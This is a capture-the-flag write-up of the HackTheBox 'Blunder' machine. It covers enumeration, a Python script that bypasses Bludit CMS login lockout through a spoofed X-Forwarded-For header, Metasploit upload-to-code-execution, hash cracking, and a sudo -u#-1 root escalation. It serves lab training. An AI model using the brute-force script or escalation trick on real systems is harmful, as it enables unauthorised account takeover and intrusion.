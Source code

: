 ```yaml
---
title: Writeup - HackTheBox - Blunder
published: true
---
```

![](Pictures/Blunder/logo.png)

This machine from HackTheBox is categorized as an “easy” Linux
machine.
The machine is hosting a website with Bludit CMS version 3.9.2.
The Bludit installation has security flaws that make’s it possible to get a remote shell for the user www-data. Bludit has a parallel installation on the server. From this installation I found a SHA1 hash for the account Hugo. Hugo is a user account on the server as well, and the password from the SHA1 hash is also the password for Hugo’s local account. There is a misconfigured setting for the user Hugo that makes it possible to escalate to root.

## [](#header-2)Enumeration

### [](#header-3)Nmap
I started with an nmap scan to get a list of running services on the machine.
```
Nmap -sC -sV -oA nmap 10.10.10.191
```

![](Pictures/Blunder/nmap.png)

I noticed only two open ports on the system, port 21 and 80. The webserver is hosting a website.

### [](#header-3)Gobuster
Gobuster is a tool that can be used to enumerate a website by
guessing what content is placed on the webserver. I ran the the
following command to start gobuster with one of my built-in
wordlists in Kali Linux:

```
gobuster dir w usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.191/ -x php,html,txt
```

```
/about (Status: 200)
/0 (Status: 200)
/admin (Status: 301)
/install.php (Status: 200)
/robots.txt (Status: 200)
/todo.txt (Status: 200)
/usb (Status: 200)
/LICENSE (Status: 200)
```

##### [](#header-5)Todo.txt
The file todo.txt seems to be something that is unusual. The
content of the file is the following:
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images – PENDING
This information might be useful in a later stage.

##### [](#header-5)Robots.txt
The robots file is a file that gives instructions to search
engines such as Google and Bing etc. The instructions might be to exclude content from the website.
Robots.txt on this web server doesn't give any further useful information.

##### [](#header-5)/admin
Visiting http://10.10.10.191/admin in the web browser shows me that this site uses Bludit CMS, and also ask me to login.

## [](#header-2)Exploitation

### [](#header-3)Cewl
At this stage I dont have any credentials to use to login to the
CMS. From the text file todo.txt I got a name, fergus. This is not
enough, I still need some passwords to try login.
Cewl is a tool that indexes a web site with all text and writes it
to a file, one line per word.

```
Cewl -m 5 10.10.10.191 -w cewl.txt
```

This command gives me all text on the website, with minimum 5
chars and saves it to the file cewl.txt. With this information I
can use this to try to login. The cewl.txt has 188 lines so it
will take time to try everyone manually. The Bludit CMS also have
a function that locks out the IP-address, if more than 10 tries
fails.

### [](#header-3)Bludit Brute Force Migitation Bypass
Bludit has a configuration in the file security.class.php that
locks the user out after 10 tries. I found a solution to bypass
this configuration online from a Security Researcher, <a href="https://rastating.github.io/bludit-brute-force-mitigation-bypass/" target="_blank">rastating</a>.
Rastating writes about the problem and also provides a python-
script as a Proof Of Concept. By running a modified version of
this script with the assumption that the valid username is
“fergus”, I was able to find a matching password,
“RolandDeschain”, from the wordlist made by cewl earlier.
Now I was able to use the credentials to log on to the system.

#### [](#header-4)The modified script

```
#!/usr/bin/env python3
import re
import requests

host = 'http://192.168.194.146/bludit'
login_url = host + '/admin/login'
username = 'admin'
wordlist = []

# Generate 50 incorrect passwords
for i in range(50):
	wordlist.append('Password{i}'.format(i = i))

# Add the correct password to the end of the list
wordlist.append('adminadmin')

for password in wordlist:
	session = requests.Session()
	login_page = session.get(login_url)
	csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"',
login_page.text).group(1)

	print('[*] Trying: {p}'.format(p = password))

	headers = {
		'X-Forwarded-For': password,
		'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',

		'Referer': login_url
	}

	data = {
		'tokenCSRF': csrf_token,
		'username': username,
		'password': password,
		'save': ''
	}

	login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

	if 'location' in login_result.headers:
		if '/admin/dashboard' in login_result.headers['location']:
			print()
			print('SUCCESS: Password found!')
			print('Use {u}:{p} to login.'.format(u = username, p = password))
			print()
			break
```

### [](#header-3)Bludit_upload_images_exec - MetaSploit
There is a vulnerability in the image upload function what in
short terms means that an attacker can upload a malicious payload
file and get remote code execution.
There is a module added to MetaSploit that executes this attack.

![](Pictures/Blunder/metasploit.png)

With this exploit, using the credentials from before, I was able
to get a shell back for the user www-data.

### [](#header-3)SHA1 hash
From the folder /var/www/ I saw that there is another Bludit
installation on the server. Bludit-3.10.0a.

![](Pictures/Blunder/var-www.png)

Inside the folder /var/www/bludit-3.10.0a/bl-content/databases is
a file named users.php. The file contains information about the
user Hugo.

![](Pictures/Blunder/users.png)

The password shown in the picture is the SHA1 hash for the user
Hugo. The hash was cracked and the password is: Password120
I was now able to change user to Hugo.

![](Pictures/Blunder/user.png)

And here is the user.txt flag.

### [](#header-3)Privilege escalation
I did some enumeration to see if Hugo is able to perform commands
as root.

![](Pictures/Blunder/sudo-l.png)

With this knowledge I can use an technique to trick the system
that Im allowed to run bash as root.

```
sudo -u#-1 /bin/bash
```

This gives me a root shell and I was able to get the root.txt
flag.

![](Pictures/Blunder/root.png)
